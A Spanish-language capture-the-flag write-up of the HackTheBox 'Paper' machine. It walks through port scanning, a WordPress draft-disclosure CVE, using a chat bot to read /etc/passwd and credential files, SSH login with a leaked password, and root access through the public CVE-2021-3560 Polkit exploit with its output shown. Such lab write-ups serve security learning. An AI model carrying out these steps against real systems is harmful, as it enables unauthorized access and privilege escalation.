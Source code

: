 ```yaml
---
title: HackTheBox - Paper
author: cotes
date: 2023-09-12 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'Information Leakage', 'Crontab Exploitation (curl)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Paper/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Paper Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Information Leakage, Crontab Exploitation (curl)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Paper/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Paper/02-versions.png)

* Para conocer más del sistema web usaremos **whatweb**

    ```bash
    ❯ whatweb 10.10.11.143
    http://10.10.11.143 [403 Forbidden] Apache[2.4.37][mod_fcgid/2.3.9], Country[RESERVED][ZZ], Email[webmaster@example.com], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9], IP[10.10.11.143], MetaGenerator[HTML Tidy for HTML5 for Linux version 5.7.28], OpenSSL[1.1.1k], PoweredBy[CentOS], Title[HTTP Server Test Page powered by CentOS], UncommonHeaders[x-backend-server], X-Backend[office.paper]
    ```
    > Lo más relevante de esta información es ver un host **office.paper**, así que lo añadimos al /etc/hosts

c. Al visitar ese nuevo host veremos un Wordpress y al ir investigando veremos este comentario

![](/assets/images/HTB/Easy/Paper/03-comment.png)


> El comentario de arriba, menciona algo sobre la existencia de una secreto en los **drafts** (borradores)
{: .prompt-info }

* Al investigar sobre alguna vulnerabilidad asociada a esto llegamos a [CVE-2019-17671](https://www.exploit-db.com/exploits/47690), aquí nos dicen que inyectando un sentencia podemos llegar a ver borradores

    ![](/assets/images/HTB/Easy/Paper/04-draft.png)

* Añadimos el nuevo dominio al fichero /etc/hosts. Lo visitamos y registramos una cuenta

d. Leyendo mensajes anteriores de este chat detectamos un bot **recyclops**

![](/assets/images/HTB/Easy/Paper/05-bot.png)

* La funcionalidad más relevante es la de leer y listar ficheros. Para interactuar con el bot le enviamos mensajes directos

![](/assets/images/HTB/Easy/Paper/06-chat.png)

e. Leemos el archivo /etc/passwd para ver los usuarios en el sistema. Después, vemos archivos que puedan tener credenciales

![](/assets/images/HTB/Easy/Paper/08-passwd.png)

![](/assets/images/HTB/Easy/Paper/09-file.png)

* Estas credenciales son válidas para el servicio ssh 

    ```bash
    ❯ ssh dwight@10.10.11.143
    dwight@10.10.11.143's password: Queenofblad3s!23
    [dwight@paper ~]$
    ```


### Escalada de Privilegios 💹

a. En este [articulo](https://vk9-sec.com/cve-2021-3560local-privilege-escalation-polkit-0-105-26-0-117-2/) mencionan sobre la escalación de privilegios vía **Polkit**

* Copiamos el fichero [poc.sh](https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation) y lo guardamos en la máquina víctima

    ```bash
    [dwight@paper ~]$ ./poc.sh 

    [!] Username set as : secnigma
    [!] Starting exploit...
    [!] Inserting Username secnigma...
    Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
    [+] Inserted Username secnigma  with UID 1005!
    [!] Inserting password hash...
    [!] It looks like the password insertion was succesful!
    [!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
    [dwight@paper ~]$ su secnigma
    Password: secnigmaftw
    [secnigma@paper dwight]$ sudo bash
    [sudo] password for secnigma: secnigmaftw
    [root@paper dwight]#
    ```

    > Debemos ejecutar este script varias veces hasta que funcione.
    {: .prompt-tip }
